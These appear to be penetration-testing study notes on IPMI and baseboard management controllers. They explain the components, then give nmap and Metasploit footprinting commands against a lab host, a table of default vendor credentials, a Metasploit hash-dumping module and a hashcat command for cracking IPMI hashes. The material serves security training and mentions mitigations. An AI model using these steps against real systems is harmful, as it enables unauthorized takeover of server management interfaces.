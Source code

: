 ## Intelligent Platform Management Interface (IPMI)

Standardised system for management and monitoring 
Works independently of the hosts BIOS, CPU and firmware. 
Allows admins to monitor systems even if they are powered off. 

Typically used in 3 ways:
	- Before the OS has booted to modify BIOS settings
	- When the host is fully powered down
	- Access to a host after a system failure

Can monitor things such as:
	System Temp
	Voltage 
	Fan status 
	power supplies. 
	Review hardware logs and alerting using #SNMP.
	
Host system can be powered off but off #IPMI needs a power source and LAN connectivity.

Required Components: 
	- Baseboard Management Controller (BMC) - A micro-controller and essential component of an IPMI
	- Intelligent Chassis Management Bus (ICMB) - An interface that permits communication from one chassis to another
	- Intelligent Platform Management Bus (IPMB) - extends the BMC
	- IPMI Memory - stores things such as the system event log, repository store data, and more
	- Communications Interfaces - local system interfaces, serial and LAN interfaces, ICMB and PCI Management Bus

Systems are known as Baseboard Management Controllers(BMCs)
Access to the BMC is nearly the same as physical access.
Many have a web based management console 

# Footprinting 
### Nmap
```shell-session
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
```

### Metasploit 
```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 
msf6 auxiliary(scanner/ipmi/ipmi_version) > run
```

### Default Passwords 

|Product|Username| Password|
|---|---|---|
|Dell iDRAC|root|calvin|
|HP iLO|Administrator|randomized 8-character string consisting of numbers and uppercase letters|
|Supermicro IPMI|ADMIN|ADMIN|

### Try default passwords on any system

### Dangerous Settings
http://fish2.com/ipmi/remote-pw-cracking.html

Crack with hashcat 
```shell-session 
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

No direct fix to this exploit. 
Only to use very long difficult to crack passwords or network segmentation rules.
Passwords may be reused. 

### Dump Hashes with MSF 
```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
```
